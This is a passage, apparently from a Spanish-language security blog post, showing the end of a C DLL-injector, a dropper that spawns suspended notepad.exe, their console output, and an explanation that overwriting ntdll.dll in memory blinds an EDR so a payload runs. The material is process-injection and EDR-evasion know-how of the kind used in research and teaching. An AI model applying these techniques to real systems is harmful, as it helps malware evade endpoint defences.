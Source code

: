 ```c
					th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
					WaitForSingleObject(th, -1);
		}
	}
	printf("[main] DllInjector Process End \n");
	return 0;
}

```
La ejecución de este binario solo tiene sentido si tenemos el Dropper.exe ejecutando:

```
Dropper.exe
[main] Init program 6568

[injection] CreateProcessA (Suspended mode)
         ParentProcessId: 6568
         RemoteProcessId (notepad.exe) 3584
         RemoteThreadId 2792
```

El binario inyector:

```
DllInjector.exe
[main] DllInjector Process Init
[main] Current Process PID 2004

[FindProcess]: Process Found notepad.exe : PID 3584
[Main] Target notepad.exe PID = 3584
[FindThread] for pid 3584
[FindThread] ProcessId: 3584 Thread 2792
```



¿Que ocurre si sobreeescribimos la DLL ntdll.dll en memoria del proceso? `Exacto el EDR deja de monitorizar nuestras acciones y por lo tanto el payload se ejecuta`

Conclusión, el mejor ataque parte de entender a tu opnente !!

![EDR Overwrite](/assets/images/NTDLL_overwrite.png)
